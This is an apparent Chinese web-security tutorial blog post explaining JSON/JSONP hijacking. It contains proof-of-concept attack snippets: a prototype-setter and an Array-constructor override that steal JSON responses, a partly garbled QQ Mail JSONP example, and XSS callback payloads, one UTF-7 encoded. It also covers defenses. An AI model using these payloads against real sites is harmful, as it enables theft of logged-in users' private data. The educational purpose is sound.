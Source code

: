```yaml
---
title: ​【WEB安全】WEB安全基础知识系列- JSON Hijacking
id: 1063
categories:
  - WEB安全
date: 2016-06-11 00:01:36
tags:
---
```


JavaScript Hijacking和CSRF很相像，唯一不同的是，CSRF是模拟你的身份去发送请求，JavaScript Hijacking是模拟你的身份，窃取你在服务器上的私隐信息。


## 1.攻击原理:

Json Hijacking攻击的思想见下图：
![](https://rjgeek.github.io/images//2016/06/061016_1601_WEBWEB15.jpg) 
<!--more-->
（1）.你正常访问信任站点（[http://www.Bank.com](http://www.bank.com/)），然后登陆信任站点。 

（2）.信任站点通过你的验证，并返回Cookie。

（3）.这时，在你还没有登出信任站点之前，你再打开了一个浏览器的tab页，并访问了一个恶意站点（[www.BadGuy.com](http://www.badguy.com/)）。

（4）.恶意站点向请求用户访问[http://www.Bank.com](http://www.bank.com/)的一个资源。

（5）.浏览器带着之前的Cookie信息，向信任站点发送一个AJAX的GET请求或者JSONP跨域请求

（6）.信任站点验证的Cookie信息通过，根据请求返回一个JSON数组或者回调数据如mycallback({'id':'123'})。

（7）.你的浏览器收到来自[http://www.Bank.com](http://www.bank.com/)的响应后，转发响应中的JSON信息给恶意站点。至此，恶意站点拿到你关于[http://www.Bank.com](http://www.bank.com/)的信息。

## 2.JSONP的介绍:

为了更好的引述下面的话题，下面我借用stackoverflow上的话题来介绍一下JSONP
>JSONP is really a simple trick to overcome the XMLHttpRequest same domain policy. (As you know one cannot send AJAX (XMLHttpRequest) request to a different domain.)，So - instead >of using XMLHttpRequest we have to use script HTML tags, the ones you usually use to load js files, in order for js to get data from another domain. Sounds weird?，Thing is - >turns out script tags can be used in a fashion similar to XMLHttpRequest! Check this out:


``` 
script = document.createElement('script');
script.type = 'text/javascript';
script.src = 'http://www.someWebApiServer.com/some-data';
``` 
You will end up with a script segment that looks like this after it loads the data:
``` 
{['some string 1', 'some data', 'whatever data']}
``` 
However this is a bit inconvenient, because we have to fetch this array from script tag. So JSONPcreators decided that this will work better(and it is):
```
script = document.createElement('script');
script.type = 'text/javascript';
script.src = 'http://www.someWebApiServer.com/some-data?callback=my_callback';</td>
``` 
Notice the my_callback function over there? So - when JSONP server receives your request and finds callback parameter - instead of returning plain js array it'll return this:
``` 
my_callback({['some string 1', 'some data', 'whatever data']});</td>
``` 
See where the profit is: now we get automatic callback (my_callback) that'll be triggered once we get the data.That's all there is to know about JSONP: it's a callback and script tags.，NOTE: these are simple examples of JSONP usage, these are not production ready scripts.JSONP stands for JSON with Padding. (very poorly named technique as it really has nothing to do with what most people would think of as "padding".)

总结：AJAX的底层原理是XMLHttpRequest，但是由于浏览器的同源策略，无论是get还是post请求，均不允许进行跨域操作，但是html对js和css则没有限制，这要是网站优化动静态元素分离的一个基础，JSONP就是基于此事实，去后台请求时返回可以执行的JS,返回mycallback({'id':'123'}，如果此刻在页面中有函数，Function mycallback(obj){alert(obj.id)} 则能正常的返回

## 2.攻击举例

实际应用中返回的数据格式有两种，一种是数据，一种是对象  
** 对象的攻击方式** 

``` 
<html>
...
<body>
<script type="text/javascript">
Object.prototype.__defineSetter__('Id', function(obj){alert(obj);});
</script>
<script src="http://example.com/Home/AdminBalances"></script>
</body>
</html>
``` 
其中用到了Javascript的原型，如果对Javascript的原型不够熟悉，可以参考之前的文章[《【编程语言】深刻理解javascript原型（_proto_）》](http://helloword.1kapp.com/archives/1056)

**数组的攻击方式**
``` 
var secrets;
Array = function() {
secrets = this;
};
var yourData = '';
var i = -1;
while(secrets[++i]) {
yourData += secrets[i] + ' ';
}
alert('I stole your data: ' + yourData);

``` 

下面举一个实际的例子，通过构造URL让用户访问，可以获得QQ Mail的邮件列表。该漏洞由于需要在web QQ里共享QQ Mail里的邮件信息，所以QQ Mail开放了一个json接口以提供第三方的域名来获得QQ Mail的信息，但是由于该接口缺乏足够的认证，所以导致任何第三方域里都可以用script的方式来获取该邮件列表。[WooYun: QQMail邮件泄露漏洞](http://www.wooyun.org/bugs/wooyun-2010-046) 详见地址http://www.wooyun.org/bugs/wooyun-2010-046

``` 
var Qmail={};
fun=passport&amp;target=MLIST&amp;t=login.js&amp;pagesize=10&amp;resp_charset=gb2312&amp;1=3"></script>
alert(Qmail.newMailsList.nextUrl);
alert(document.scripts[1].src=Qmail.newMailsList.nextUrl);
alert(Qmail.newMailsList.summary);
``` 

## 4.漏洞防御:

因为此类漏洞为CSRF的变种，因此CSRF的防御均可以使用，详见[《【WEB安全】WEB安全基础知识系列-跨站请求伪造(CSRF)》](http://helloword.1kapp.com/archives/992)，其中重点介绍JSONP中的callback防御，在早期 JSON 出现时候，大家都没有合格的编码习惯。再输出 JSON 时，没有严格定义好 Content-Type（ Content-Type: application/json ）然后加上 callback 这个输出点没有进行过滤直接导致了一个典型的 XSS 漏洞， 举例：[http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>，对于 Content-Type 来说早期还有一部分人比较喜欢使用 application/javascript而这个头在 IE 等浏览器下一样可以解析 HTML 导致 XSS 漏洞。对于这种类型的漏洞，防御主要是从两个点去部署的：

** a 严格定义 Content-Type:applicationjson **

这样的防御机制导致了浏览器不解析恶意插入的 XSS 代码（直接访问提示文件下载）。但是凡事都有个案，在 IE 的进化过程中就出现过通过一些技巧绕过 Content-Type 防御解析 html ，比如在 IE6、7 等版本时请求的 URL 文件后面加一个 /x.html 就可以解析 html （ http://127.0.0.1/getUsers.php/x.html?callback=<script>alert(/xss/)</script>  ）
具体参考：http://hi.baidu.com/hi_heige/item/f1ecde01c4af3ed61ef04646


**b、过滤 callback 以及 JSON 数据输出**

这样的防御机制是比较传统的攻防思维，对输出点进行 xss 过滤。又是一个看上去很完美的解决方案，但是往往都是"事与愿违"。当年( 2011 年)一个 utf7-BOM 就复活了 n 个 XSS 漏洞。这种攻击方式主要还是存在与 IE 里(注在 IE 较新版本里已经"修复") 也就是当我们在 callback 点输出 +/v8 这样的 utf7-BOM 的时候， IE 浏览器会把当前执行的编码认为是 utf7 ,所以我们通过 utf7 提交的 XSS 代码会被自动解码并执行。如：

``` 
 http://127.0.0.1/getUsers.php?callback=%2B%2Fv8%20%2BADwAaAB0AG0APgA8AGIAbwBkAHkAPgA8AHMAYwByAGkAcAB0AD4AYQBsAGUAcgB0ACgA
 MQApADsAPAAvAHMAYwByAGkAcAB0AD4APAAvAGIAbwBkAHkAPgA8AC8AaAB0AG0APg-%20其中：     %2B%2Fv8%20%2BADwAaAB0AG0APgA8AGIAbwBkAHkAPgA8AHMAYwByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApADs
 APAAvAHMAYwByAGkAcAB0AD4APAAvAGIAbwBkAHkAPgA8AC8AaAB0AG0APg-%20URLdecode 为：+/v8+ADwAaAB0AG0APgA8AGIAbwBkAHkAPgA8AHMAYwByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApADsAPAAvAHMAYw
 ByAGkAcAB0AD4APAAvAGIAbwBkAHkAPgA8AC8AaAB0AG0APg-
 ``` 
其中 +/v8  为 utf7-BOM ，后面的为我们注入的 utf-7 编码后的 XSS 代码的：
``` 
//alert(1);
``` 

## 4.总结与思考:

Json Hijacking 主要是利用了服务器对请求的信任和JS的强大的灵活性，在使用JSONP时注意返回格式的严格定义，减少攻击的切入面


## 5.引用:

*   <span style="color: black;"><span style="font-family: 仿宋; font-size: 12pt;">http://haacked.com/archive/2009/06/25/json-hijacking.aspx/ </span><span style="font-family: 微软雅黑; font-size: 13pt;">
</span></span>
*   <span style="color: black;"><span style="font-family: 仿宋; font-size: 12pt;">http://haacked.com/archive/2008/11/20/anatomy-of-a-subtle-json-vulnerability.aspx/</span><span style="font-family: 微软雅黑; font-size: 10pt;">
</span></span>
*   <span style="color: black; font-family: 仿宋; font-size: 12pt;">http://stackoverflow.com/questions/2067472/what-is-jsonp-all-about
</span>
*   <span style="color: black; font-family: 仿宋; font-size: 12pt;">http://www.wooyun.org/bugs/wooyun-2010-046
</span>
*   <span style="color: black; font-family: 仿宋; font-size: 12pt;">http://www.csdn.net/article/2015-07-14/2825207
</span>